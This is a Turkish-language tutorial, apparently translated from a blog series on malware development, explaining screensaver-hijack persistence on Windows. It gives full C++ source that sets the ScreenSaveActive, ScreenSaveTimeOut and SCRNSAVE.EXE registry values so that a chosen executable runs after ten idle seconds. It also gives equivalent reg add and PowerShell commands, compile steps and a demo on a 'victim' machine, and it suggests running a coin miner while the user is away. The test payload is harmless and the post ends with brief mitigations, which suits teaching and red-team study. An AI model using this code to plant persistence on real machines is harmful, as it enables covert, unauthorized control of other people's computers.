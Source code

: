 \newpage
\subsection{68. zararlı yazılım geliştirme: kalıcılık - bölüm 2. Screensaver hijack.C++ örneği}

![pers](./images/52/2022-04-27_03-07.png){width="80%"}    

Bu yazı, Windows zararlı yazılım kalıcılık teknikleri ve hileleri üzerine yazı dizisinin ikinci bölümüdür.    

Bugün, kendi araştırmalarımın sonucu olan bir başka kalıcılık hilesi hakkında yazacağım: Screensaver kötüye kullanımı.    

### screensavers

Screensaver'lar, kullanıcı belirli bir süre boyunca hareketsiz kaldığında çalışan programlardır. Windows'un bu özelliği, tehdit aktörleri tarafından kalıcılık sağlamak için kötüye kullanılmaktadır.Screensaver'lar varsayılan olarak `.scr` uzantısına sahip PE dosyalarıdır ve ayarları aşağıdaki registry anahtarlarında saklanmaktadır:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    

![pers](./images/52/2022-04-27_03-23.png){width="80%"}    

Screensaver'ı etkinleştirmek için değeri `1` olarak ayarlayın.    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` -     
Screensaver'ın çalıştırılmadan önceki kullanıcı hareketsizlik süresini ayarlar.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` -     
çalıştırılacak uygulamanın yolunu ayarlar.    

### pratik örnek

Şimdi pratik bir örneğe bakalım. Diyelim ki [önceki](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) bölümden elimizde bir "malware" olan `hack.cpp` var:    

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Hadi bunu derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-04.png){width="80%"}    

Ve bir klasöre kaydedelim `Z:\\2022-04-26-malware-pers-2\`:    

![pers](./images/52/2022-04-27_03-29.png){width="80%"}    

Daha sonra, `pers.cpp` adlı bir betik oluşturalım. Bu betik, `hack.exe` programını kullanıcı `10` saniye boyunca hareketsiz kaldığında çalıştıracak registry anahtarlarını oluşturacaktır:   

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, 
    REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, 
    REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, 
    REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Gördüğünüz gibi, mantık oldukça basit. Sadece timeout ve uygulama yolu için yeni registry anahtarları ekliyoruz.     

Registry anahtarları `cmd` terminali üzerinden de eklenebilir:    

```powershell
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE \
/d Z:\2022-04-26-malware-pers-2\hack.exe
```

veya `powershell` komutları ile:    

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'SCRNSAVE.EXE' -Value \
'Z:\2022-04-26-malware-pers-2\hack.exe'
```

Ancak kod yazmayı sevdiğim için, bunu birkaç satır kod ile nasıl yapabileceğinizi göstermek istedim.     

### demo

Hadi `pers.cpp` betiğimizi derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-06.png){width="80%"}    

Daha sonra, deneyin doğruluğu için öncelikle kurbanın makinesindeki registry anahtarlarını kontrol edelim ve eğer varsa, anahtarları silelim:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
```

![pers](./images/52/2022-04-27_03-43.png){width="80%"}    

![pers](./images/52/2022-04-27_03-48.png){width="80%"}    

daha sonra, `pers.exe` betiğimizi çalıştırıp tekrar kontrol edelim:    

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-14.png){width="80%"}    

Gördüğünüz gibi, yeni anahtar beklendiği gibi eklendi.     

Şimdi her şeyi çalışırken kontrol edelim. Oturumu kapatıp tekrar giriş yapalım ve `10` saniye bekleyelim veya sadece `10` saniye boyunca hareketsiz kalalım:     

![pers](./images/52/2022-04-27_04-13_1.png){width="80%"}    

Pwn! Her şey mükemmel şekilde çalıştı! :)   

Deneyin sonunda, anahtarları silmeyi unutmayın:     

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-18.png){width="80%"}    

### sonuç

Bu kalıcılık yönteminin dezavantajı, kullanıcı geri döndüğünde ve sistem artık boşta olmadığında oturumun sonlanmasıdır. Ancak red team'ler, kullanıcının yokluğunda (örneğin, bir coin miner çalıştırarak) operasyonlarını gerçekleştirebilirler.
Eğer screensaver'lar grup politikası ile devre dışı bırakılmışsa, bu yöntem kalıcılık için kullanılamaz. Ayrıca, `.scr` dosyalarının standart olmayan konumlardan çalıştırılmasını engelleyerek bu tekniği önleyebilirsiniz.    

[This trick in MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/002/)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[github'taki kaynak kod](https://github.com/cocomelonc/2022-04-26-malware-pers-2)    
